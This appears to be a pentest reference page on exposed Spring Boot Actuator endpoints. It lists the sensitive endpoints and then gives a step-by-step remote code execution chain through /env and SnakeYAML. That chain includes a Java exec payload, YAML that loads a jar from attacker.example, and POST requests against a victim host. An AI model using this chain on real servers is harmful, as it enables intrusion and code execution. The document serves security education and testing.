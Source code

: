 +++
title = "Insecure Management Interface"
date = '2022-10-16'
description = 'All about insecure management interfaces.'
+++
# Insecure management interface

## Springboot-Actuator

Actuator endpoints let you monitor and interact with your application. 
Spring Boot includes a number of built-in endpoints and lets you add your own. 
For example, the `/health` endpoint provides basic application health information. 

Some of them contains sensitive info such as :

- `/trace` - Displays trace information (by default the last 100 HTTP requests with headers).
- `/env` - Displays the current environment properties (from Spring’s ConfigurableEnvironment).
- `/heapdump` - Builds and returns a heap dump from the JVM used by our application.
- `/dump` - Displays a dump of threads (including a stack trace).
- `/logfile` - Outputs the contents of the log file.
- `/mappings` - Shows all of the MVC controller mappings.

These endpoints are enabled by default in Springboot 1.X.
Note: Sensitive endpoints will require a username/password when they are accessed over HTTP.

Since Springboot 2.X only `/health` and `/info` are enabled by default.

### Remote Code Execution via `/env`

Spring is able to load external configurations in the YAML format.
The YAML config is parsed with the SnakeYAML library, which is susceptible to deserialization attacks.
In other words, an attacker can gain remote code execution by loading a malicious config file.

#### Steps

1. Generate a payload of SnakeYAML deserialization gadget.

- Build malicious jar
```bash
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload
# Edit the payload before executing the last commands (see below)
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

- Edit src/artsploit/AwesomeScriptEngineFactory.java

```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("ping rce.poc.attacker.example"); // COMMAND HERE
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

- Create a malicious yaml config (yaml-payload.yml)

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker.example/yaml-payload.jar"]
  ]]
]
```


2. Host the malicious files on your server.

- yaml-payload.jar
- yaml-payload.yml


3. Change `spring.cloud.bootstrap.location` to your server.

```
POST /env HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://attacker.example/yaml-payload.yml
```

4. Reload the configuration.

```
POST /refresh HTTP/1.1
Host: victim.example:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

## References

* [Springboot - Official Documentation](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-endpoints.html)
* [Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)
